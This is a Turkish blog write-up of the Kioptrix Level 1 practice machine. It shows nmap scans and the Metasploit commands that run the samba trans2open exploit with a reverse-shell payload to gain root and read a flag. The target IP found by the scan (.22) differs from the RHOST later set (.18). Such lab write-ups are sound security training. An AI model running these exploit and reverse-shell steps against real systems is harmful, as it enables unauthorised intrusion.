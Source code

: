 ```yaml
---
layout: post
title: Kioptrix Level 1 Writeup
categories: tr
---
```





&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>Kioptrix</strong>, içerisindeki çeşitli zafiyetleri istismar ettiğimiz, bunlar sayesinde erişimler elde 
edebildiğimiz ve bu şekilde sistemi ele geçirmeye çalıştığımız bir sanal makine uygulamasıdır.
Bu yazımda Kioptrix <strong>Level 1</strong> sanal makinesi çözümünü yapacağım. Sanal makineyi <a href = "http://www.kioptrix.com/blog/test-page/" >şu</a> bağlantı 
üzerinden indirebilirsiniz. 
 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Öncelikle sanal makinenin ağ üzerinde hangi ip adresini aldığını öğrenmek için <strong>nmap</strong> aracıyla
genel bir ağ taraması yapıyoruz. 

	nmap -sV -T4 192.168.0.0/24


<img src="/img/kioptrix/hedef-tespiti.png">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu ağ taraması sonucuna göre Kioptrix Level 1 sanal makinasının aldığı ip adresi 192.168.0.22 olarak
görünüyor. Bu bilgiyi kullanarak şimdi açık portları tespit etmek için başka bir tarama yapacağız.

	nmap -sV -T4 192.168.0.22 --open


<img src="/img/kioptrix/hedef-tarama.png">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu işlem sonucunda açık olan portları aşağıdaki gibi listeliyoruz.  <strong>Netbios-ssn</strong> servisi
üzerinden işlem yapmaya çalışacağız. Burada sambanın bu sürümünde bulunan <strong>arabellek taşması(buffer overflow)</strong>
açığı istismar edilecektir.


 | 139/tcp | open | netbios-ssn |	 Samba smbd (workgroup: MYGROUP)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>Metasploit Framework</strong> üzerinde <strong>exploit</strong> aramaya başlıyoruz. 

	msf> search samba

<img src="/img/kioptrix/search-exploit.jpeg">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Burada listelenen çözümlerden sistemimiz ile ilgili olan seçiyoruz. 

	msf>  use exploit/linux/samba/trans2open



&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu aşamada kullandığımız exploit sayesinde samba servisi açığından yararlanabiliyoruz fakat
hedef sistem üzerinde bir kontrol elde edemiyoruz. Burada hedef sisteme sızmayı sağlayan ve 
istediğimiz işlemleri gerçekleştirmemizi sağlayan <strong>payload</strong>lardan birini kullanmamız gerekiyor.
Uygun olabilecek payloadları aratıyoruz ve buradan <strong>reverse_tcp</strong> seçimini yapıp hedefe karşı bir
reverse shell uygulaması yapacağız. Hedefin tepkisi sonucu terminalden bir reverse shell bağlantısı
kurulacak. Sonrasında eklememiz gereken parametreleri görmek ve eklemek için aşağıdaki adımları
uyguluyoruz.



	msf> show payloads
	msf> set PAYLOAD generic/shell_reverse_tcp
	msf> options
	msf> set RHOST 192.168.0.18
	msf> set LHOST 192.168.0.14
	msf> run

<img src="/img/kioptrix/search-payload.jpeg">

<img src="/img/kioptrix/options.jpeg">

<img src="/img/kioptrix/root-erisim.jpeg">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Belli bir süre devam eden işlem sonucunda hedefe root erişimi sağlıyoruz. Artık içeride 
bulunmak istenen mesajı aramaya başlıyoruz. Önemli gördüğümüz dizinler arasında dolanırken
gözümüze <strong>var</strong> dizini takılıyor . Buraya girdiğmizde <strong>mail</strong> adlı bir dosya daha görüyoruz. Bunun da
içerisine girdiğmizde dosya tipi <strong>ASCII mail text</strong> olan '<strong>root</strong>' adlı bir dosya görüyoruz. Bunu 
okuduğumuzda bu  makinenin <strong>FLAG</strong> değerine ulaşıyoruz.

<img src="/img/kioptrix/sonuc1.jpeg">
<img src="/img/kioptrix/sonuc2.jpeg">



